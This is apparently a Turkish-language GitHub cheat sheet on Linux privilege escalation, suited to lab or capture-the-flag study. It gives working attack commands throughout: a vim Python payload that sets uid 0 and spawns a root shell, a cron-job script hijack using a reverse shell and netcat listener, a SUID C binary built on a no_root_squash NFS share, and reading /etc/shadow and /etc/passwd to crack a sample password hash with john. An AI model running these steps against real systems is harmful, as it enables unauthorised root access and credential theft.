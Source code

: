 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


SUID bitlerini ayarlayabildiğimiz için hedef sistemde /bin/bash'i çalıştıracak basit bir çalıştırılabilir dosya işimizi görecektir.

![image](https://github.com/user-attachments/assets/dde4845c-94af-41e1-a82c-d190484f33e3)

```bash
/tmp/backupsonattackermachine içinde
# echo "int main(){setgid(0);setuid(0);system('/bin/bash');return 0;}" >> nfs.c
# gcc nfs.c -o nfs -w 
# chmod +s nfs   
# 
```

Kodu derlediğimizde SUID bitini ayarlayacağız.

![image](https://github.com/user-attachments/assets/2f97d0c4-0266-4fca-97a3-251db79a799f)


hedef sisteme atıyoruz nfs dosyasını 

daha sonra ./nfs olarak calıstıyoruz

---


# farklı kullanıcalara shadow ve passwd üzerinden erişim sağlama:

/etc/shadow ve /etc/passwd okuyabiliyorsak şu adımları izlemeliyiz

```bash
# cat /etc/shadow
# cat /etc/passwd
```
mesela missy kullanıcısına ait passwordu kırıcaz

okuduğumuz shadow ve passwdleri  passwd.txt ve shadow.txt içine atıyoruz
örn  
``` bash
# cat  passwd.txt   
missy:x:1001:1001::/home/missy:/bin/bash
```

``` bash
#cat shadow.txt 
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```
daha sonra shadowu kaldırmamız lazım 
``` bash
unshadow passwd.txt shadow.txt > cracked.txt
john --wordlist=/usr/share/wordlists/rockyou.txt cracked.txt
```
şifreyi kırdık 




















